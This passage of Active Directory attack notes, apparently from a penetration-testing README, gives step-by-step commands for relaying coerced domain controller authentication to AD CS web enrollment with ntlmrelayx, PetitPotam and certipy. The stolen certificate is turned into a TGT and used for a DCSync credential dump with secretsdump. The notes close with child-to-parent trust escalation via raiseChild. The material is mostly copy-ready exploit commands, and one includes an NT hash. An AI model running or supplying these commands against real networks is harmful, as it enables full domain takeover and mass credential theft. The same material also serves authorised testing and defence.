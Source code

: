 The web enrollement can be checked at : http://<dc-ip>/certsrv/certfnsh.asp. If that link requests for authentication, all is fine.

In order to exploit this, a listener can be added to relay SMB authentication to HTTP with impacket ntlmrelayx as follows:
```
ntlmrelayx.py -t http://<dc-ip>/certsrv/certfnsh.asp -smb2support --adcs --template DomainController
```
Next, coerce authentication can be launched with coercer or petitpotam
```
petitpotam.py attacker-ip domain.controller.fqdn
```
Once successful, ntlmrelayx will relay the authentication to the web enrollement and get the certificate which can be used to ask TGT:
```
gettgtpkinit.py -pfx-base64 $(cat cert.b64) 'my.domain.com'/'DC$' 'DC.ccache'
```
With the TGT obtained, DCsync can be launched to get the ntds.dit content:
```
export KRB5CCNAME=DC.ccache
secretsdump.py -k -no-pass my.domain.com/'DC$'@DC.my.domain.com
```

This attack can also be performed with certipy.

- setup the listener :
```
certipy relay -ca $ca_ip_address -template DomainController
```
- trigger the coerce 
```
petitpotam.py $attacker_ip DC.my.domain.com
```
- with the certificate obtained, get the NT hash of the DC and also the TGT :
```
certipy auth -pfx DC.pfx -dc-ip 10.X.X.X
```
- launch a DCsync with secretsdump and the ticket obtained:
```
export KRB5CCNAME=DC.ccache
secretsdump -k -no-pass my.domain.com/'DC$'@DC.my.domain.com

# or with the hash

secretsdump -hashes ':39d964a01c61c19fe36c71627d7ab56c' -no-pass my.domain.com/'DC$'@DC.my.domain.com
```



### Abusing trust relationship
Trust between domains can be enumerated in numerous ways:
- Using bloodhound
```
MATCH p=(n:Domain)-->(m:Domain) RETURN p
```
- Using PowerView
```
Get-ForestTrust

Get-NetDomainTrust
```
Trust between child and parent domains can be abused to escalate privileges using `raiseChild`:
``` 
raiseChild.py child.domain/child_domain_admin_user:'child_domain_admin_password' 
```
This will create a golden ticket for the forest enterprise admin.
### Configuration checking